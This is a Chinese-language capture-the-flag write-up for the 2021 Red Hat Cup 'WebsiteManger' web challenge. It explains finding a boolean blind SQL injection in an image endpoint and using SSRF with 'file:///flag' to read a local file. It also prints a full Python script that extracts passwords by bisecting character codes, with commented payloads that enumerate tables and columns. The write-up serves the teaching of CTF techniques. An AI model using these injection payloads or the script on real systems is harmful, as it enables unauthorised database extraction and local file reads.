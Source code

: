 # 原创
：  2021红帽杯 WebsiteManger

# 2021红帽杯 WebsiteManger

#### 2021红帽杯 WebsiteManger

## 考点

> 
布尔盲注、SSRF


## 思路

> 
尝试一般的登录方法没得用处，F12查看，登录框没有sql注入的利用点，发现还有一张图片，好家伙，sql注入的利用点在图片上


> 
当id的值为0时没有图片回显，利用布尔盲注得到用户密码：14348d305648989c355433b9a04dffce，用户名为：admin，登录进去一个很明显的ssrf考点


> 
猜测 flag在根目录下：`file:///flag`


## Payload

> 
盲注脚本


```
import string
import requests

allstr = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&amp;\'()*+,-./:;&lt;=&gt;?@[\]^_`{|}~'

url = 'http://challenge-faceca08e0d9acf7.sandbox.ctfhub.com:10800/image.php'

flag=''
for i in range(1,100):
    length=len(flag)
    min=32
    max=128
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            break

        #payload="if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{},1))&lt;{},sleep(0.5),1)".format(i,j)
        #payload="0/**/or/**/if(ascii(substr((select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()),{},1))&lt;{},1,0)".format(i,j)
        #payload="0/**/or/**/if(ascii(substr((select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='users'),{},1))&lt;{},1,0)".format(i,j)
        payload="0/**/or/**/if(ascii(substr((select/**/group_concat(password)from/**/users),{},1))&lt;{},1,0)".format(i,j)
        params={
            'id':payload
        }
        r=requests.get(url=url,params=params)
        if len(r.text)&gt;200:
            max=j
        else :
            min=j

```
